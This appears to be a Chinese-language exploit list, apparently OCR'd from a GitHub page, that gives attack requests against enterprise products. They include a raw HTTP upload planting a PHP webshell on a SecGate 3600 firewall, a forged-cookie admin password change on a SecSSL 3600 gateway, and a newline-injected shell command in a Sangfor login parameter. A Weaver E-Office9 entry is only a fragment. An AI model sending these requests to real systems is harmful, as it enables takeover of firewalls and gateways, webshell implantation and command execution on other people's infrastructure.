## 泛微 OA 代码执行 EXP

Weaver E-Office9版本存在代码问题漏洞，该漏洞源于文件/inc/jquery/uploadify/uploadify.php存在问题，对参数Filedata的操作会导致不受限制的上传。

Weaver E-Office9.0

泛微 Weaver E-Office9 前台文件包含

## 网神 SecGate 3600 防火墙 obj_app_upfile 任意文件上传

POST /?g=obj_app_upfile HTTP/1.1
Host: x.x.x.x
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 574
Content-Type:multipart/form-data;boundary=----WebKitFormBoundaryJpMyThWnAxbcBBQc
User-Agent: Mozilla/5.0 (compatible; MSIE 6.0; Windows NT 5.0; Trident/4.0)

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition:form-data; name="MAX_FILE_SIZE"

10000000
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition:form-data; name="upfile"; filename="vulntest.php"
Content-Type: text/plain

<?php php马?>

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="submit_post"

obj_app_upfile
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="__hash__"

0b9d6b1ab7479ab69d9f71b05e0e9445
------WebKitFormBoundaryJpMyThWnAxbcBBQc--
木马路径：attachements/xxx.php

## 网神 SecSSL 3600安全接入网关系统 任意密码修改
POST /changepass.php?type=2 

Cookie:admin_id=1; gw_user_ticket=ffffffffffffffffffffffffffffffff; last_step_param={"this_name":"test","subAuthId":"1"}
old_pass=&password=Test123!@&repassword=Test123!@

## 深信服应用交付命令执行

POST /rep/login

Host:URL

clsMode=cls_mode_login%0Als%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123
